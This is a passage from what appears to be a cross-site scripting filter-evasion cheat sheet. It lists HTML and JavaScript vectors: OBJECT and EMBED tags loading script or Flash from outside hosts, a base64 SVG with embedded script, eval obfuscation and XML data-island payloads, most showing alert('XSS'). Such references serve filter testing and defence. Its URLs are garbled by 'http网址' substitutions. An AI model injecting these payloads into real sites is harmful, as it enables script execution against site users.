 ```js
<OBJECT TYPE="text/x-scriptlet" DATA="http网址xss.rocks/scriptlet.html"></OBJECT>
```

EMBED a Flash Movie That Contains XSS
Click here for a demo: http网址ha.ckers.org/xss.swf

```js
<EMBED SRC="http网址ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```

If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).

EMBED SVG Which Contains XSS Vector
This example only works in Firefox, but it’s better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.


```js
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv
MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

Using ActionScript Inside Flash for Obfuscation
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d);
```

XML Data Island with CDATA Obfuscation
This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

```js
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

```
Locally hosted XML with embedded JavaScript that is generated using an XML data island
This is the same as above but instead referrs to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

```js
<XML SRC="xsstest.xml" ID=I></XML>  
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

```

HTML+TIME in XML
This is how Grey Magic hacked Hotmail and Yahoo!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:
